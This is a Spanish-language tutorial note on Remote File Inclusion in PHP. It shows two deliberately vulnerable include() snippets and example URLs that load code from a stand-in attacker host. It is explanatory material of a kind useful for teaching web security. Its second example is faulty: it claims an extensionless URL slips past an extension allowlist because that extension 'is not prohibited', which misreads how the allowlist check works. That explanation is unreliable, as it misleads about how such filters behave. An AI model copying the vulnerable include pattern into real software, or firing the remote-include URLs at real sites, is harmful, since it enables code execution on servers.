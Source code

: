 ____

- Tags:

___

# Definición 

La Inclusión Remota de Archivos (**RFI**) es una vulnerabilidad de seguridad que afecta a aplicaciones web. Se produce cuando un programa permite a un atacante incluir archivos remotos a través de la entrada de usuario. Esto puede tener consecuencias graves, ya que el atacante puede ejecutar código arbitrario en el servidor, comprometiendo la integridad y seguridad del sistema.

___
# Cómo funciona

Cuando una aplicación web no valida adecuadamente las entradas de usuario, un atacante puede manipular esas entradas para incluir archivos remotos. Esto significa que el atacante puede cargar y ejecutar código desde un servidor externo, aprovechando la vulnerabilidad.

___
# Ejemplos:
### Ejemplo 1: RFI Básico

Supongamos que tienes una aplicación web que incluye archivos **PHP** para mostrar contenido dinámico:

```php
// Archivo index.php
<?php
    $page = $_GET['page'];
    include($page . '.php');
?>
```

En este caso, si un atacante accede a la URL `http://tusitio.com/index.php?page=http://atacante.com/malicious`, la aplicación incluirá y ejecutará el código del archivo remoto `http://atacante.com/malicious.php`, permitiendo al atacante ejecutar código en el servidor.

### Ejemplo 2: RFI con Filtro Insuficiente

Supongamos que la aplicación web intenta filtrar ciertas extensiones de archivo, pero el filtro es insuficiente:

```php
// Archivo index.php con filtro de extensión
<?php
    $page = $_GET['page'];
    $allowed_extensions = ['php', 'html', 'txt'];
    
    $page_extension = pathinfo($page, PATHINFO_EXTENSION);
    
    if (in_array($page_extension, $allowed_extensions)) {
        include($page);
    } else {
        echo "Extensión no permitida.";
    }
?>
```

Un atacante podría superar este filtro accediendo a la URL `http://tusitio.com/index.php?page=http://atacante.com/malicious` ya que la extensión `malicious` no está prohibida.

___
# Consecuencias

Las consecuencias de un **RFI** pueden ser diversas y peligrosas. El atacante puede ejecutar comandos en el servidor, robar información confidencial, modificar o eliminar datos, e incluso comprometer todo el sistema.

___
# Prevención

Para prevenir estos escenarios, es crucial validar y filtrar de manera exhaustiva todas las entradas de usuario. Además, se deben utilizar rutas relativas en lugar de rutas absolutas al incluir archivos. Asegurarse de que la aplicación solo incluya archivos locales y mantener todas las bibliotecas y aplicaciones actualizadas también es esencial para mitigar los riesgos asociados con la **RFI**.